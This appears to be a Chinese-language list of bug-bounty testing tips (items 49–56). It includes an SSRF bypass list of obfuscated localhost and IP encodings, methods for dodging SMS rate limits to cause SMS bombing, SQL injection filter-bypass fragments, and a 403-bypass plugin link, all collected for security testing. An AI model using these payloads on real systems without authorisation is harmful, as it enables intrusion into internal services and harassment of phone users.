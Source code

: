 49、绕过403的一个BurpSuit插件，地址：[GitHub - sting8k/BurpSuite_403Bypasser: Burpsuite Extension to bypass 403 restricted directory](https://github.com/sting8k/BurpSuite_403Bypasser)

50、SSRF bypass列表，基于localhost（127.0.0.1），如下：
```
http://127.1/ 
http://0000::1:80/ 
http://[::]:80/ 
http://2130706433/ 
http://whitelisted@127.0.0.1 
http://0x7f000001/ 
http://017700000001 
http://0177.00.00.01 
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/ 
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/ 
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/ 
http://②⑧⑤②⓪③⑨①⑥⑥:80/ 
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/ 
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/ 
http://0xd8.0x3a.0xd6.0xe3 
http://0xd83ad6e3 
http://0xd8.0x3ad6e3 
http://0xd8.0x3a.0xd6e3 
http://0330.072.0326.0343 
http://000330.0000072.0000326.00000343 
http://033016553343 
http://3627734755 
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37 http://216.0x3a.00000000326.0xe3
```
原文链接：[Bug Bounty Tips #10 - InfosecMatter](https://www.infosecmatter.com/bug-bounty-tips-10-dec-24/#13_ssrf_bypass_list_for_localhost_127001)

51、容易发生短信轰炸的几个业务场景以及绕过方法：
①：登录处 
②：注册处 
③：找回密码处 
④：绑定处 
⑤：活动领取处 
⑥：独特功能处 
⑦：反馈处
一般绕过限制方法：
手机号码前后加空格,若干+，86，086，0086，+86，0，00，/r,/n, 以及特殊符号等
修改cookie，变量，返回
138888888889 12位经过短信网关取前11位，导致短信轰炸

52、注入的时候可以试试`--%0a union` `--%0a select` 尝试绕过

53、如果在旁站中发现短信验证码在response中出现，可以试试主站或者其他站点中验证码是否通用

54、获取短信验证码时，用逗号、拼接符等隔开两个手机号，有可能两个手机号能获取到同一个验证码

55、测试注入 `and ord(0x1) ->true`，`and ord(0x0) ->false`

56、使用python快速开启http服务器：
基于python2.x，命令如下：
`python -m SimpleHTTPServer 8000`
在当前目录起个 8000 端口的 HTTP 服务 
基于python3.x，命令如下：
`python -m http.server 8000`
